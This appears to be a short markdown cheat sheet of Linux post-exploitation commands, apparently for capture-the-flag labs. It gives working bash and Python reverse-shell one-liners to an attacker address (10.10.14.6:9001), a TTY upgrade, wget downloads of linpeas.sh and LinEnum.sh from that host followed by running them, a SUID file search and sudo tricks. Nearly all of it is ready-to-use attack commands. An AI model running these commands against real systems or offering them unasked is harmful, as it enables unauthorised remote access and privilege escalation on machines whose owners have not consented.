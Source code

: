 ```sudo -l```

```whoami```

```groups```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


# Searching through files

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## Search for strings in file (or filesystem)

```
sudo strings /path/to/file
```


# LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
wget http://10.10.14.6/linpeas.sh
```
```
./linpeas.sh > peas.txt
```

# LinEnum

```
wget http://10.10.14.6/LinEnum.sh
```
```
./LinEnum -t -r enum.txt
```
# Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


## Run command as specific user
```
sudo -u USER command
```

## Start shell as specific user
```
sudo -u USER bash -i
```
